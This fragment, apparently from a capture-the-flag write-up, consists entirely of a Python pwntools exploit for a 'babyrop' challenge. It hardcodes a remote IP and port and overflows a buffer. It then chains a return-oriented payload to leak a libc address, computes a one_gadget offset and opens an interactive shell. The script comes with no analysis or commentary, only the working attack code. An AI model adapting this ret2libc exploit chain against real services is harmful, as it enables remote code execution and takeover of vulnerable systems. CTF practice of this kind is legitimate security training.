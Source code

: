exp:

```
#!/usr/bin/python
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
#sh = process('./babyrop')
sh = remote('101.71.29.5',10041)
elf = ELF('./babyrop')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = 0x08048592
ret = 0x0804839e

sh.recvuntil('Hello CTFer!')
payload = '\x00'*0x20 + p32(0x66666666)
sh.sendline(payload)
sh.recvuntil('name?\n')
payload = '\x00'*0x14  + p32(puts_plt) + p32(main_addr) + p32(puts_got)
sh.sendline(payload)
addr = u32(sh.recvuntil('\xf7')[-5:])

libc = LibcSearcher('puts',addr)
base = addr - libc.dump('puts')

one_gadget = base + 0x3a819
#one_gadget = base + 0x3ac69
sh.recvuntil('Hello CTFer!')
payload = p32(0)*8 + p32(0x66666666)
sh.sendline(payload)
sh.recvuntil('name?\n')
payload = '\x00'*0x14 + p32(ret) +p32(one_gadget)
sh.sendline(payload)
sh.interactive()
```
